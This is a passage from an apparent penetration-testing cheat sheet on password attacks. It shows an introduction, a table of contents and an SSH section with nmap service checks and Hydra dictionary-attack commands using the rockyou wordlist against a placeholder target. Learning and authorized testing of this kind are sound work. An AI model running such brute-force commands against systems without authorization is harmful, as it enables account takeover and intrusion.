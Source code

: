 # Password Attacks

## Overview

Passwords continue to be the primary authentication method across most systems and services. This cheat sheet covers various techniques used to compromise password-based security mechanisms, from targeting live network services to cracking stored password hashes.

This reference guide covers the following sections:

- Attacking Network Service Logins
- Password Cracking Fundamentals  
- Working with Password Hashes

This document provides practical commands, tools, and techniques for testing password strength through network-based attacks, different password cracking approaches, and methods to identify and exploit various hash formats found in modern systems.

## Table of Contents

- [1. Attacking Network Service Logins](#1-attacking-network-service-logins)
- [2. Password Cracking Fundamentals](#2-password-cracking-fundamentals)
- [3. Working with Password Hashes](#3-working-with-password-hashes)

---

## 1. Attacking Network Service Logins

Network services with authentication mechanisms are primary targets for credential attacks. Two main approaches exist: brute-force attacks (testing all possible combinations) and dictionary attacks (using wordlists of common passwords).

### 1.1 SSH Attacks

**Target Verification**
```bash
# Check SSH service availability
nmap -sV -p 2222 target_ip
```

**Dictionary Attack with Hydra**
```bash
# Prepare rockyou wordlist
cd /usr/share/wordlists/
sudo gzip -d rockyou.txt.gz

# Single user attack
hydra -l username -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://target_ip

# Multiple users attack
hydra -L users.txt -P passwords.txt ssh://target_ip
```
